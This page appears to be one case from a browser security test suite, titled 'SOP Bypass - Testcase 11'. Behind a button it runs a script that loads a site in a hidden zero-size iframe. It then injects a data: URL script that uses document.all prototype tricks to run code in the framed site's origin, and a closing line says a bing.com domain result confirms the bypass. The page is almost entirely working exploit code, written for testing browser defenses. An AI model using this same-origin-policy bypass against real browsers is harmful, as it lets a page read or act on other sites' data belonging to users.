 ```yaml
---
layout: default
title: SOP Bypass - Testcase 11
permalink: /sop/new/11
---
```


# SOP Bypass - Testcase 11

<input type="button" id="btn_test" class="test" value="Run Test Case" onclick="myfunc2()">
<script>
function myfunc2() {
    frame = document.body.appendChild(document.createElement("iframe"));
    frame.src = "https://web.archive.org/web/20180831120303/https://www.bing.com";
    frame.width = "0px";
    frame.height = "0px";
    frame.onload = function() {
        frame.onload = null;
        frame.contentWindow[0].location = "data:text/html,<script>(" + function() {
            window.name = "alert";
            obj = document.all;
            obj.__proto__ = parent;
            alert(obj.alert.constructor("return document.domain")());
        } + ")()</script>";
    }
}
</script>

**Note:**
If document.domain points to bing.com, it has resulted in a SOP Bypass.
